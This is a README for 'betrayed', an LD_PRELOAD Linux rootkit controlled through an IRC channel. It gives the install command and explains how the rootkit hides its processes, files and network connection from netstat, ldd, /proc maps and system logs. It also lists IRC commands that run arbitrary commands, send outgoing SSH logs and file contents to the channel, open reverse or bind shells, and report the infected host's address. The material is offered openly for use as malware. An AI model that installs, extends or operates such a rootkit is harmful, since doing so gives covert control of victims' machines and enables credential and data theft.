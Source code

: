 # betrayed
### Basic info
betrayed is an LD_PRELOAD Linux rootkit which is controlled mainly from a IRC channel.  
It is free of any dependencies, and installs near enough instantly.  
 * Processes are hidden with a magic GID
 * Files/directories are hidden with extended attributes
 * Connections to the IRC server are hidden from plain sight. `netstat` will not show betrayed's socket connection.

 * Upon installation, betrayed will begin trying to create its initial fork process wherein it will connect to the server and join the specified channel.
 * By default, betrayed will only create its process & connect to the server if the calling process has root privs. You can turn this off by defining `DM_ROOT` in the config header.

betrayed's code is a very heavily modified and (de)restructured version of bedevil.
#### Usage
`./install.sh <host> '<channel>' [password]`
Upon completing installation, install.sh will `cat /dev/null`, which will cause betrayed to execute its initial fork process. Even without doing `cat /dev/null` at the end of the installation, any newly spawned process will initiate the connection to the IRC server.  
<b>Compile only:</b> `COMPILE_ONLY=1 ./install.sh ...` will compile betrayed.so in your cwd.  
When installing, `install.sh` will write `config.h`. After this header is present, simply running `./install.sh` will cause the script to read settings from the header. A new nick and magic GID will be generated.
  
Once installed, and assuming you are in your target channel, you will see a new user with a random nick join your channel. That is essentially the box that you installed betrayed on.
#### Available commands
```
 IRC commands:
      To use a command, send "<CMD NAME> <NICK/all> [any arguments]"
        "!EXEC", // executes given commands & sends resulting output to the channel.
        "!SSHL", // read outgoing ssh logs, send said logs to the channel.
        "!READ", // send file contents to the channel.
        "!REVR", // send a reverse shell to a given hort & port.
        "!BIND", // create a bind shell on given port.
        "!KILL", // remove the rootkit and all of its files and disconnect.
        "!DISC", // just disconnect. we will then reconnect when possible.
        "!INFO", // just send `uname -a` output to the channel.
        "!HELP", // send this command list to the channel.
        "!ADDR"  // send the address of the box to the channel. uses curl.
```

#### Notes
##### Hiding
 * betrayed hides itself from /proc/\*/maps, smaps, and numa_maps.
 * betrayed hides itself from `ldd`, among others.
 * 
 * No default systemd logs are created when utilising betrayed.
 * Only your installation's home directory is hidden (with extended attributes).
 * Processes are hidden with your magic GID.
 * betrayed only evades `netstat` output.

##### Connection
 * using !EXEC/!INFO may cause a short wait before you can do anything else.